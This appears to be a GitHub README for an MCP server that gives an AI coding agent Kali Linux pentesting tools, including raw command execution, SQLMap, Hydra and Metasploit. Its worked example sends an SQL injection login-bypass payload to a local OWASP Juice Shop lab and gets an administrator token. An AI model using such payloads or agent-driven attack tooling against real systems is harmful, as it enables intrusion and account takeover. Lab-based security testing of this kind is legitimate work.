




 
# MCP Server - Kali

MCP Server that exposes Kali Linux pentesting tools to AI assistants (VS Code + GitHub Copilot) over stdio/SSH.

## General Flow
```
User → AI Agent (VS Code Copilot) → MCP Server → Kali Tools
     ← AI Response ← MCP Result ←
```

The AI agent sends requests to the MCP server, which executes the appropriate tools on Kali Linux. The results are returned through MCP to the AI agent, which interprets them and generates the final response.

## MCP Tools

| Category | Tools |
|---|---|
| **General** | Health check, Raw command execution |
| **Reconnaissance** | Nmap, WhatWeb, Subfinder, Nuclei |
| **Web Scanning** | Nikto, WPScan, SSLScan/testssl.sh |
| **Directory Discovery** | Gobuster, Dirb, Feroxbuster, ffuf |
| **Injection Testing** | SQLMap, Commix, XSStrike, Dalfox |
| **Brute-forcing** | Hydra, Hashcat, John the Ripper |
| **Exploitation** | Metasploit Framework, Searchsploit |
| **Network Enum** | Enum4Linux, CrackMapExec/NetExec |
| **Utilities** | cURL, Arjun, wafw00f |

## Install

On your Kali machine:

```bash
cd mcp-server-kali  
chmod +x setup.sh
./setup.sh
```

This installs the MCP SDK, copies the server to `/opt/kali-mcp-server/`, installs pentesting tools, and creates the `start-mcp-server` command.


## Run

Run the MCP server with:

```bash
start-mcp-server
```

Or run it directly with Python:

```bash
python3 kali_mcp_server.py
```


## MCP Inspector

For the MCP Inspector, run:

```bash
mcp dev kali_mcp_server.py
```

Alternatively, use:

```bash
npx @modelcontextprotocol/inspector
```

MCP Inspector is running at http://127.0.0.1:6274

For more MCP CLI options:

```bash
mcp --help
```


## VS Code Setup

Enable SSH on your Kali machine:

```bash
sudo systemctl enable --now ssh
```

In VS Code, open the MCP configuration:

```text
Ctrl+Shift+P
→ MCP: Open User Configuration
```

Add:

```json
{
  "servers": {
    "kali": {
      "type": "stdio",
      "command": "ssh",
      "args": [
        "-i", "PATH_TO_SSH_PRIVATE_KEY",
        "-T",
        "-o", "LogLevel=ERROR",
        "-o", "StrictHostKeyChecking=no",
        "kali@YOUR_KALI_IP",
        "bash -lc 'start-mcp-server 2>/dev/null'"
      ]
    }
  }
}
```


## Important: Windows Terminal vs Kali MCP Tools

One limitation is that the VS Code agent can still decide to use its normal Windows terminal instead of the Kali MCP tools.

Having the Kali MCP server configured does not automatically mean every terminal command executed by the agent will run on Kali.

When testing the setup, explicitly instruct the agent to use the Kali MCP tools rather than the local Windows terminal.

For example:

> Use the Kali MCP tools for all security testing. Do not use the local Windows terminal. The target is running on Kali.

## Architecture

```text
VS Code + GitHub Copilot
          │
          │ MCP request
          ▼
     SSH connection
          │
          ▼
     Kali Linux
          │
          ▼
   start-mcp-server
          │
          ▼
      MCP Tools
          │
          ├── nmap_scan 
          ├── nikto_scan 
          ├── sqlmap_scan 
          ├── gobuster_scan 
          ├── nuclei_scan 
          ├── ffuf_scan
          └── etc.
```


# Example: OWASP Juice Shop — SQL Injection Validation

This example uses a local OWASP Juice Shop instance to demonstrate the complete MCP → Kali → tool output → AI response workflow.





### 1. Initial Attempt

The first attempt tried several SQL injection payloads in a shell `for` loop.

The command failed because of incorrect shell quoting/escaping:

```text
status: error
exit_code: 2

/bin/sh: 6: Syntax error: Unterminated quoted string
```

This demonstrates why careful shell quoting is important when JSON payloads contain characters such as `'`, `"`, and `--`.




### 2. Successful Validation

A single payload was then sent using `curl` with the JSON request body properly escaped:

```bash
curl -sS \
  -D /tmp/juice_sql_login_headers.txt \
  -o /tmp/juice_sql_login_body.txt \
  -H 'Content-Type: application/json' \
  --data '{"email":"admin@juice-sh.op'\'' OR 1=1 -- ","password":"x"}' \
  http://127.0.0.1:3000/rest/user/login
```

The request completed successfully:

```text
HTTP/1.1 200 OK
authentication.token = present
umail = admin@juice-sh.op
bid = 1
```

The response contained an authentication object and JWT associated with the Juice Shop administrator account.




### 3. AI Agent Interpretation

he AI agent receives summarizes the successful authentication response for the user.


